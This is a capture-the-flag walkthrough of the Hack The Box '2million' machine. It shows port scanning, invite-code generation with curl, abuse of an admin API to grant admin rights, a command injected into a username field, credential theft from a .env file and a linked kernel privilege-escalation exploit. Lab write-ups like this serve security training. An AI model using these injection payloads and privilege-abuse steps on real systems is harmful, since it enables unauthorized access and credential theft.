


## Overview
In this write-up, we document the steps taken to penetrate the `2million.htb` target on Hack The Box. The process includes initial port scanning, domain configuration, API interaction, and the final privilege escalation exploit that achieved root access.


### Port Scan

```shell
 # Nmap 7.94SVN scan initiated Sat Aug 10 10:26:58 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan 10.10.11.221
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.061s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
An initial `Nmap` scan revealed two significant open ports:
- **Port 22 (SSH)**: Running OpenSSH 8.9p1 on Ubuntu.
- **Port 80 (HTTP)**: Hosting an Nginx server redirecting to `2million.htb`.


## Domain Configuration
After identifying `2million.htb` as the primary domain, the hosts file was updated to allow smooth navigation to the web application. Initial exploration led to discovering an invite code generation feature.


## Invite Code Generation
The API provided an endpoint for generating invite codes. By making POST requests to the `/api/v1/invite/generate` endpoint, invite codes were retrieved, then decoded using `base64`, revealing codes formatted for entry.


``` shell
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"N0VDWEYt************","format":"encoded"}}                                                                                                                                    
┌──(kali㉿kali)-[~/HTB]
└─$
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"SFlKOUUtSDNQU************","format":"encoded"}}                                                                                                                              
┌──(kali㉿kali)-[~/HTB]
└─$ echo "SFlKOUUtSDN************" | base64 -d          
HYJ9E-H3PSB-0HILZ-09HUU      

```

## API Enumeration
Interacting with the application’s API revealed multiple endpoints under both `user` and `admin` roles. These endpoints included functionalities for user registration, authentication, VPN configuration, and admin-specific actions such as generating and updating user settings.

```shell
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 12:01:01 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


## Exploiting the Admin API
Utilizing the `/api/v1/admin/settings/update` endpoint, a payload was crafted to update user privileges. By modifying the `is_admin` attribute, admin access was obtained.

```shell
{
	"email": <youremail>,
	"is_admin": 1
}
```

## Command Injection and Directory Access
After acquiring elevated privileges, we leveraged command injection by sending a POST request with a crafted username parameter that allowed shell command execution. This enabled directory listing and file discovery, leading to sensitive information extraction.


```shell
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=bgo6jig411fj3nk8bciqfonpdo
Upgrade-Insecure-Requests: 1
Content-Length: 47

{
"username": "velid; ls -la "
}

-----------------------------------------------------------------
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 18:21:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 690

total 56
drwxr-xr-x 10 root root 4096 Aug 11 18:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 11 18:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views

------------------------------------------------------


```

## Sensitive File Discovery and SSH Access
The `.env` file was accessed, revealing login credentials. Using the credentials inside, SSH access was established with the following command:
Cat the .env file:


Log in ssh with credentials

```shell
ssh admin@10.10.11.221: Su************
```


### Privilege Escalation (CVE-2023-0386)
The [CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386) exploit was used to escalate privileges to root. This exploit enabled full control over the target system, concluding the penetration test with root access.
This CVE will give you root access




### Flags

```shell
root:7dc68d17************
user:f62e9b66************
```